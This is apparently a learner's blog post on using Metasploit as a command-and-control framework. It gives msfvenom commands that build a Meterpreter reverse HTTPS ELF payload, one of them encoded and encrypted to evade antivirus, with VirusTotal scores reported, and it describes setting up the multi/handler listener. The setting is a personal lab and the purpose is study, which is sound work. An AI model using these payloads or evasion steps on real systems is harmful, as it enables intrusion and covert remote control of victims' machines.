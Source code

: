 ```yaml
---
layout: blogpost
title: Introduction to Metasploit C2
image: /assets/images/blog-images/msfc2/msf.svg
---
```

![metasploit framework CLI Logo]({{ page.image }})

## Metasploit Framework
A little bit about Metasploit Framework, or for short msf, from what I've learned.

Just like Havoc Framework from my previous blog, you can create payloads based on attributes you give it. In msf case, it is done within the command line of a linux system. I just used Kali as it's preinstalled within it. Since I'm learning more about post-exploitation therefore I'm focusing on payloads and command & control (C2) aspects of msf. 

The Metasploit Framework uses msfvenom for making payloads and exploit/multi/handler in the msfconsole for listening and handling multiple sessions like a C2 server would for the most part. msfvenom has many payloads that can be created from their long list within the tool. 

For payloads, use "msfvenom -l all" for all options when using the tool or replace the word "all" with other options like payloads or encoders to narrow down the options when searching. Of course, there is always -h or --help to use to look up other argues and their uses.

For handling sessions during post-exploitation, use "exploit/multi/handler" after entering the msfconsole. In here, you set the parameters of the payload like the listening host and port so that the handler can catch the payload's execution from the victims machine.

### Little Tutorial
Example of making a stageless reverse https elf payload
```bash
msfvenom -a x86 --platform linux -p linux/x86/meterpreter_reverse_https LHOST=192.168.1.17 LPORT=9001 -f elf -o httpshell.elf  
```
![The command above being executed](/assets/images/blog-images/msfc2/msfvenomExamplePayloadElf.png)

VirusTotal scores this non-encoded payload with 31 of 61.
![31 of 61 AVs flagged non-encoded elf from VirusTotal Analysis](/assets/images/blog-images/msfc2/VirusTotalResultsUncoded.png)

The settings of the exploit/multi/handler like payload, lhost, and lport match the msfvenom command from before therefore the listener knows what to look for.
![Settings of the msfconsole multi/handler](/assets/images/blog-images/msfc2/msfconsoleMultiHandlerOptions.png)

The image below is the results you could expect from a mostly successful reverse HTTPs connection. It does contain a bunch of errors that are cut off but I'm looking into what they meant. Even with the errors I could use meterpreter on the victim's computer.
![Results from mostly successful reverse HTTPs connection from victim to handler](/assets/images/blog-images/msfc2/msfconsoleHTTPsExploitConnection.png)

From there, I can interact with the meterpreter interface and execute commands internal or external towards the victims machine.

---

## Troubles while learning
I wanted to create a payload that can evade detection for Linux using msfvenom's encoder and encrypt features but it wasn't working when I executed the file on my linux victim machines and only resulted in a segmentation fault. If I recreated the payload encoded for windows and a .exe file if wouldn't have any issues.

```bash
msfvenom -a x86 --platform linux -p linux/x86/meterpreter_reverse_https LHOST=192.168.1.17 LPORT=9001 -e x86/shikata_ga_nai -i 10 --encrypt aes256 -f elf -o encodedpayload.elf
```
![The command above being executed](/assets/images/blog-images/msfc2/msfvenomExamplePayloadEncoded.png)

VirusTotal scores this encoded payload with 2 of 61.
![2 of 61 AVs flagged encoded elf from VirusTotal Analysis](/assets/images/blog-images/msfc2/VirusTotalResultsEncoded.png)

I've be diving back into a while to find out how to overcome the segmentation fault error for linux when it doesn't occur for windows. I assume it is with how the payload is created, tt could be a simple fix or something complex.

---

## Conclusion
I like the GUI and interactability of Havoc Framework but its limitation of windows only levels it with Metasploit Framework in my eyes as a C2 server. With more practice with the Metasploit Framework, I can see this becoming number one compared to Havoc Framework. Understanding overcomes easy of accessability.

Link to [Part 3 - Introduction to PaaS Redirectors](/PaaSRedirect)

